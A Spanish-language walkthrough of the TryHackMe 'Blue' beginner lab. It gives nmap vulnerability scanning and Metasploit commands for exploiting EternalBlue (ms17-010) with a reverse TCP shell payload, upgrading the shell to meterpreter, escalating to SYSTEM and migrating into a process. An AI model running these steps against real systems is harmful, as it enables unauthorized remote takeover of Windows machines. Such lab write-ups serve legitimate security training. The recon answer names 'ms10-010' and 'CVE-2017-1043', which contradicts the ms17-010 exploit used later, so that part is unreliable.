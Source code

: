 # TryHackMe - Blue Writeup
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Descripción
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.

## Task 1 - Recon

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

2. How many ports are open with a port number under 1000?

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)


Podemos escanera la máquina con el siguiente comando:

```
nmap -p1-1000 -sV -sC --script vuln 10.10.9.82
```

El comando hace lo siguiente:
- nmap: es el programa a utilizar.
-  - p1-1000: Indica que se escaneen los puertos del 1 al 1000.
- - sV: Habilita la detección de la versión de los servicios    que corren en los puertos abiertos.
- - sC: Habilita la ejecución de scripts.
- - - script vuln: Hace que se ejecuten los scripts relacionados con la deteccoión de vulnerabilidades (vuln).
- - 10.10.9.82: Es la ip de la máquina a escanear.

Con esto obtendremos los siguientes resultados:

![Consola](img/console1.png)

![Consola](img/console2.png)

Ahora podemos responder a las preguntas:

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

2. How many ports are open with a port number under 1000?
>! 3

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

>! ms10-010
>! ms10-054 ha dado false y ms10-061 no permite el acceso, por lo que sólo queda ms10-010, que se identifica con la vulnerabilidad CVE-2017-1043.

## Task 2 - Gain Access

1. Start [Metasploit](https://tryhackme.com/module/metasploit)

Abrimos Metasploit y esperamos a que cargue, cuando aparezca 'msf6 >' estará listo para usarse.

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Introducimos el siguiente comando en la consola de metasploit:

```
search ms17-010 type:exploit
```

![Consola](img/console3.png)

Probamos la primera opción, obteniendo la respuesta:

>! exploit/windows/smb/ms17_010_eternalblue

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

Indicamos a Metasploit que queremos usar el exploit 0:

```
use 0
```

Y le preguntamos las opciones que necesita:

```
show options
```

![Consola](img/console4.png)

La solución es:

>! RHOSTS

Que es la opción requerida que no tiene ningún parámetro asignado. Esta opción indica la IP de la máquina a atacar.

4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```
set payload windows/x64/shell/reverse_tcp
```
With that done, run the exploit!

Introducimos en código que nos proporcionan, seguido de 'y' para confirmar.

Luego, ponemos enb la opción de rhost la ip de la máquina a atacar:

```
set rhosts 10.10.9.82
```

E iniciamos el script:

```
run
```

![Consola](img/console5.png)

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 


## Task 3 - Escalate

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

En este caso, estamos buscando el exploit 'shell_to_meterpreter':

![Consola](img/console6.png)

>! post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change?

Repetimos lo mismo que con el exploit anterior:

```
use 0
```

```
show options
```

![Consola](img/console7.png)

Vemos el único parámetro que no tiene valor y es obligatorio:

>! SESSION

3. Set the required option, you may need to list all of the sessions to find your target here. 

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

5. Once the meterpreter shell conversion completes, select that session for use.

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

